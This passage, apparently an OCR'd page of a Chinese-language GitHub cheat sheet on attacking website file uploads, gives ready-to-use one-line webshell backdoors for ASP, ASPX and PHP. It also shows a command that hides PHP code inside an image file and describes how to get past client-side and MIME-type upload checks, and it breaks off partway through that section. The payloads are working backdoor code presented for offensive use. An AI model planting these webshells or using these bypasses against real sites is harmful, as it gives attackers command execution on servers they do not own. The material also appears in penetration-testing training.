 ### 网站文件上传利用

- WebShell
  > WebShell是以ASP、PHP、JSP等网页文件形式存在的一种命令执行环境，也可以将其称之为一种网页后门。攻击者在入侵了一个网站后，通常会将这些asp或php后门文件与网站服务器web目录下正常的网页文件混在一起，然后使用浏览器来访问这些后门，得到一个命令执行的环境，以达到控制网址服务器的目的。
  
  **一句话WebShell**
  
  *asp*
  ```elixir
  <%eval request("value")%>
  ```
  
  *aspx*
  ```elixir
  <%@ Page Language="Jscript"%><%eval(Request.Item["value"])%>
  ```
  
  *php*
  ```php
  <?php @eval($_POST[value])?>
  // @符号的意思是不报错，因为变量value没有定义被使用，服务器会提醒变量未定义
  // 超全局变量$_GET/$_POST,使用post方法接收变量传递的字符
  // eval()把字符串作为PHP代码执行
  // exec()执行外部命令，不返回结果，可以用输出函数打印结果
  // system() 执行系统命令，返回结果
  ```
  
  制作一句话图片马
  ```sh
  copy 1.jpg/b+1.php/a 2.jgp
  ```
- 文件上传绕过
  
  a、绕过客户端检测
  > 原理：通常在上传农业面里含有专门检测文件上传的JavaScript代码，最常见的就是检测文件类型和扩展名是否合法。
  > 
  > 方法：在本地浏览器客户端禁用JS即可。利用burpsuite可以绕过一切客户端检测。
  
  b、绕过服务端检测
  
  *服务端代码检测通常检测三个点：MIME类型、文件内容、文件后缀*
  > 常见MIME类型
  > 
  > 1.超文本标记语言文本 .html text/html
  > 
  > 2.普通文本 .txt text/plain
  > 
  > 3.PDF文档 .pdf application/pdf
  > 
  > 4.Microsoft Word文件 .word application/msword
  > 
  > 5.PNG图像 .png image/png
  > 
  > 6.GIF图形 .gif image/gif
  > 
  > 7.JPEG图形 .jpeg,.jpg image/jpeg
  > 
  > 8.au声音文件 .au audio/basic
  > 
  > 9.MPEG文件 .mpg,.mpeg video/mpeg
  > 
  > 10.AVI文件 .avi video/x-msvideo
  > 
  > 11.GZIP文件 .gz application/x-gzip
  > 
  > 原理：检测图片类型文件上传过程中http头的Content-Type字段的值，来判断上传文件是否合法。
  > 